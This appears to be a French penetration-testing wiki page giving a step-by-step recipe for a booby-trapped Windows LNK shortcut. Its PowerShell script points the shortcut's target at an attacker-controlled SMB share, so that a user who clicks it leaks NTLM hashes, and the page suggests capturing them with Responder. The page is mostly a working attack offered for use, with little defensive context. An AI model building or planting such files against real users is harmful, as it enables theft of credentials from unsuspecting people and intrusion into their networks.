 ```yaml
---
title: Créer un fichier LNK piégé
description: Guide pour la création de fichier LNK piégé. Un fichier LNK peut être utilisé par un attaquant pour récupérer les hash des utilisateurs.
published: true
date: 2025-05-04T14:53:26.625Z
tags: windows, fiche technique
editor: markdown
dateCreated: 2024-10-26T09:51:45.018Z
---
```


# Introduction

Guide pour la création de fichier LNK piégé. Un fichier LNK peut être utilisé par un attaquant pour récupérer les hash des utilisateurs.

> Un fichier LNK est utilisé comme un raccourci vers des ressources diverses.
> {.is-info}

La base de l'exploitation repose sur le fait de définir la cible du fichier LNK vers le serveur d'un attaquant. En cliquant sur le raccourci, l'utilisateur va essayer de s'authentifier au serveur pour récupérer ce fichier.

> Les fichiers LNK piégés sont une alternative aux fichiers SCF piégés, qui ne fonctionnent plus sur les environnements Windows Server 2019.
> {.is-info}

# Création du fichier

```
# Créer un nouvel objet COM et le stocker dans la variable COMobjShell.
$COMobjShell = New-Object -ComObject WScript.Shell
# Appeller la méthode CreateShortcut de l'objet pour créer le raccourci.
$lnk = $COMobjShell.CreateShortcut("<emplacement fichier .lnk>")
# Définir la cible du raccourci.
$lnk.TargetPath = "\\<adresse de la machine attaquante>\<fichier>"
# Défini le style de fenêtre, ici : "La fenêtre est mise au premier plan et est restauré à sa taille et sa position d'origine."
$lnk.WindowStyle = 1
# Définir l'icône du raccourci.
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
# Définir une description du raccourci
$lnk.Description = "ceci est un fichier lnk"
# Définir la combinaison de touches pour ouvrir le raccourci.
$lnk.HotKey = "Ctrl+Alt+O"
# sauvegarder le raccourci.
$lnk.Save()
```

> Le fichier ainsi que le partage n'existent pas obligatoirement sur le serveur attaquant, il est possible d'avoir uniquement un outil comme Responder pour intercepter les hash.
> {.is-info}

A présent, le fichier est maintenant créer, il suffit d'attendre que le fichier soit cliqué pour recevoir les informations d'authentification sur notre machine attaquante.

# Voir aussi

Fiche technique pour la création d'un fichier SCF piégé
[voir la page](/Fiches-techniques/Windows/Creer-un-fichier-SCF-piégé)

Lnkbomb, créer des fichiers raccourcis .url malveillants
[voir la page](/Outils/Indépendant/Lnkbomb)
